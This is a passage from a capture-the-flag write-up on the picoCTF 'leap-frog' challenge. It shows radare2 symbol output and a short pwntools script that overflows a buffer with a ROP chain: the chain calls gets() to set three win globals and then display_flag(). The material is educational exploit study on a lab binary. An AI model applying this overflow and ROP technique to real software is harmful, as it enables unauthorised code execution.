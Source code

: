 And in the PIE-disabled version, they were placed at a fixed address:
```console
root@kali:/media/sf_CTFs/pico/leap-frog# r2 rop
 -- I script in C, because I can.
[0x080484d0]> is~win
045 ---------- 0x0804a03d GLOBAL    OBJ    1 win1
046 ---------- 0x0804a03f GLOBAL    OBJ    1 win3
064 ---------- 0x0804a03e GLOBAL    OBJ    1 win2
```

While moving from the PIE version to the non-PIE version, I forgot to take into account this change and continued working with a mindset locked on the need to attack a position-independent global. Therefore, the solution above is a bit more complicated than needed. On the other hand, it forced me to manually build a less-trivial ROP chain which overall is a good thing. 

An alternative solution which is much simpler is to use `gets` to set all three globals to `true` (thanks to [Yaakov](https://twitter.com/YaakovCohen88) for this elegant solution):

```python
overflow_offset = get_overflow_offset()
log.info("win1 address: {}".format(hex(exe.symbols["win1"])))
log.info("display_flag() address: {}".format(hex(exe.symbols["display_flag"])))

rop = ROP(context.binary)
rop.gets(exe.symbols["win1"])
rop.display_flag()

log.info("ROP: \n{}".format(rop.dump()))

payload = fit({overflow_offset: str(rop)})
io = start()
send_payload(io, payload)
io.sendline("\x01\x01\x01")
print io.recvall()
```

